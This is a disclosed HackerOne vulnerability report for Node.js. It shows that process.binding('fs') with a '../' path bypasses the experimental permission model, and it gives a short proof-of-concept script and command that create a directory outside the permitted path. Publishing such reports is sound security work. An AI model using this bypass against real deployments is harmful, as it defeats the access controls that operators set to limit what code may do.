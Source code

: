 # process.binding() can bypass the permission model through path traversal

## Report Details
- **Report ID**: 2051257
- **URL**: https://hackerone.com/reports/2051257
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-07-05T15:54:29.775Z
- **Disclosed**: 2023-09-10T15:26:16.937Z

## Reporter
- **Username**: rafaelgss
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** process.binding('fs') bypassed the permission model validation against path traversal

**Description:** process.binding('fs') can be used to bypass the path traversal validation for the permisison model

## Steps To Reproduce:

Create the following index.js and store at `/home/pathtraversal/`
```js
// index.js
const fs = process.binding('fs')

fs.mkdir('/home/pathtraversal/../test0', 511, false, null, null)
```

```console
$ pwd
/home/pathtraversal/
$ node --experimental-permission --allow-fs-read="/home/pathtraversal/*" --allow-fs-write="/home/pathtraversal/*" index.js
```

`/home/test0` will be created bypassing the permission model validation

## Impact

All the methods exposed by the process.binding('fs') could eventually bypass the permission model using path traversal. It will require the attacker to read the node_file.cc implementation, but that's trivial.

## Attachments
No attachments
